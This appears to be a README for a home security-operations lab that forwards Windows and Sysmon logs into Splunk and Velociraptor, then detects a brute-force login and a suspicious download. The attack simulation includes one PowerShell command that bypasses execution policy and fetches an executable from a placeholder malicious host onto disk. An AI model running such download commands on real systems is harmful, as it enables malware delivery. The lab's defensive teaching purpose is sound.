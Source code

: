# SOC Lab

### Overview
---

The goal for this project is to get a better understanding of how Security Operations work and what tools blue teams have at their disposal to defend against emerging security threats. This lab is aimed to build a basic SIEM and experiment with tools like Sysmon for advanced logging, Splunk for real-time monitoring, and Velociraptor for endpoint forensics.
### Lab Setup
---

The lab setup here is going to be pretty basic. I will be running 3 VMs including:

* Windows 11 Host
* Ubuntu Server (Splunk)
* Ubuntu Server (Velociraptor) 

### Virtualization
---

To get the lab setup I am going to be using virt-manager with libvirtd. If you wish to follow along on Windows, VMware workstation, Virtualbox and Hyper-V are a few options you can use.

### Networking
---

As far as networking goes, I am going to create a new virtual network and put all of the VMs on it. If you want your SOC server to have internet access, you'll want to assign a NIC on a virtual network with NAT, and a second NIC for internal SOC traffic. Do not use a bridged network as we want all of our VMs to be isolated from our home network. 

### Software
---

The software stack we are going to be running in our SOC lab is pretty short: Sysmon, Splunk, and Velociraptor. 

* Sysmon will be put on the Windows 11 Host to achieve more advanced and granular logging, providing us with more data than what default Windows logging behavior would provide. 

* Splunk is our SIEM (Security Information and Event Management) solution. SIEMs are a vital step in monitoring and responding to incidents that may occur on our hosts and networks. They allow us to aggregate our logs across multiple hosts and run queries against them to analyze for suspicious behavior. We will be using the free version of Splunk Enterprise which allows us up to 500MB of indexing a day. 

* Lastly, Velociraptor is an open-source endpoint monitoring, digital forensic, and response platform. It's useful for using digital forensic artifacts to reveal clues as to how an attacker may have breached a host. It also works in real-time to triage these artifacts and attempt to identify anomalies.

Tools that gather data from many hosts give blue teams a larger, more detailed overview of what is happening in their infrastructure.

### Connecting it all
---

Once you have got Splunk and Velociraptor installed on your server VMs, lets get the host(s) connected to them. Firstly, lets get the Splunk Universal Forwarder installed on Windows. Make sure to point the forwarder to your Splunk server IP on port 9997. In our Splunk server VM I am going to enable receiving using this command: `splunk enable listen 9997 -auth admin:changeme`. Lastly, create an inputs.conf file in `C:\Program FIles\SplunkUniversalForwarder\etc\system\local\inputs.conf`. The Splunk Universal Forwarder uses this file to know what to watch and send to the indexer. Here is what I use to get Windows Logs and Sysmon logs forwarded:

```# Collect standard Windows event logs
[WinEventLog]
index = wineventlog

[WinEventLog://Application]
disabled=0
[WinEventLog://Security]
disabled=0
[WinEventLog://System]
disabled=0
```

Then in the Splunk Microsoft Sysmon Add-on inputs.conf:

```
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = false
index = sysmon
renderXml = 1
source = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
```

Now if we do a search in Splunk we get:

<img src ="https://i.imgur.com/oslTpky.png">

Next up lets get our Windows host talking to Velociraptor. The setup process requires creating a server config, creating a server installation executable from that config, installing Velociraptor on your server, generating a host executable and finally installing the client agent on your host. I won't go through all of the steps here but here is the quick start guide from Velociraptor's documentation: https://docs.velociraptor.app/docs/deployment/quickstart/. In the end you should be able to see your endpoint listed in the search clients list.

<img src="https://i.imgur.com/ZdAASzp.png">

### Simulated Attacks
---

Lets first do a pretty simple attack: brute force login. On the Windows 11 Host I tried logging into my 'lab' account multiple times with the wrong password. 

<img src ="https://i.imgur.com/hfJbbpf.png">

Next let's run a suspicious PowerShell command: `powershell -NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest http://malicious.test/file.exe -OutFile C:\Users\Public\file.exe"

This command will attempt to download a file and write it to the disk (We're isolated from the internet so it fails).

<img src="https://i.imgur.com/8nvDn42.png">
### Splunk Detection
---

Let’s take a look at Splunk. Splunk uses SPL (Splunk Processing Language) to search, filter, and analyze the many events it ingests. Data in Splunk is stored in indexes, which you can think of like databases. Different types of data may be stored in different indexes—for example, event indexes store log-style data, while metric indexes are optimized for numeric performance metrics. Indexes allow you to efficiently select the data you want without searching the entire dataset.

Splunk ingests data from logs, APIs, or streaming sources, organizes it in indexes, and then allows you to query it with SPL. For example, a simple SPL query to find failed login events in an index called `wineventlog` might look like: `index=wineventlog EventCode=4625`

<img src = "https://i.imgur.com/hsIjawQ.png">

If we open the Event it gives us more detailed information like what account was used to try and log in, what the hostname is, and what the failure reason is.

<img src="https://i.imgur.com/U747LYD.png">
<img src="https://i.imgur.com/SeohptC.png">

Let's make our query more usable by creating a table with time, account, hostname, and ip: `index=main sourcetype=WinEventLog:Security EventCode=4625 | table _time Account_Name Workstation_Name IpAddress`

<img src="https://i.imgur.com/BIQR10j.png">

Now suddenly our logs become a lot more useful since we have a larger overview of what account is trying to be logged into, on what machine its happening, and at what time its happening. But we can get even more specific. We can see which account had the most attempts at logging in unsuccessfully: 
`index=main EventCode=4625 `
`| stats count by Account_Name, Workstation_Name`
`| sort -count`

<img src="https://i.imgur.com/Ky1Hf0i.png">

Now let's look for our suspicious PowerShell command:

`index=sysmon EventCode=1 Image="*powershell.exe"
`| stats count by CommandLine, ParentImage, Computer`
`
<img src="https://i.imgur.com/PgTLcil.png">
But how does this query work?

1. We first specify the events in the sysmon index with `index sysmon`, 
2. Then sort by `EventCode1`. Windows event codes are numerical identifiers for specific things that the operating system records. Event code 1 in this case represents a new process being created; in our instance this is cmd.exe. 
3. After getting all events with event code 1, we filter further by Image which is a field pulled from the sysmon event seen here:

<img src ="https://i.imgur.com/pGrwMXB.png">
### Velociraptor Investigation
---

Now that we've got a little more familiar with Splunk let's move into Velociraptor. In Velociraptor we search for specific things using VQL (Velociraptor query language) which is similar to SPL & SQL. To do this we create what is known as a hunt. Hunts run artifacts (VQL queries) across selected clients to collect data. Velociraptor will track the results per client and we can export this data as JSON or CSV to analyze further. Let's create our first hunt:

<img src="https://i.imgur.com/1UzE3cu.png">

Now we can select which artifacts we want, here is what I am going to run:

**Windows.EventLogs.Evtx** - Collect Windows EVTX logs (Security, System, Sysmon)
**Windows.EventLogs.LogonSessions** (ExplicitLogon) - parses logon/logoff events
**Process listings / Processinfo artifacts** - list running processes and command lines
**Network Connections** - enumerates TCP/UDP connections to link processes to external IPs
**File collection / file metadata** - collect files (or metadata) in directories you want to check for exfiltration
**Autoruns / Registry Artifacts** - Check for persistence

If I select Windows.EventLogs.Evtx, we can see the VQL that is being run:

<img src="https://i.imgur.com/KHKm0wT.png">

After selecting the artifacts you want to run, configure them to your liking and then we can launch them. Once the hunt is finished we can now go investigate. Click on the hunt you just ran, and open up a client it ran on. From the left hand menu we can select `Collected Artifacts`. Select the Artifacts that you chose to collect, and then head over to the results tab.

<img src ="https://i.imgur.com/MTGOQ7K.png">

Here we can see some of the different files that were downloaded on this host:

<img src="https://i.imgur.com/uiiYsh2.png">

Here we can see what ports are listening on our Windows host:

<img src ="https://i.imgur.com/ZMzsQ92.png">


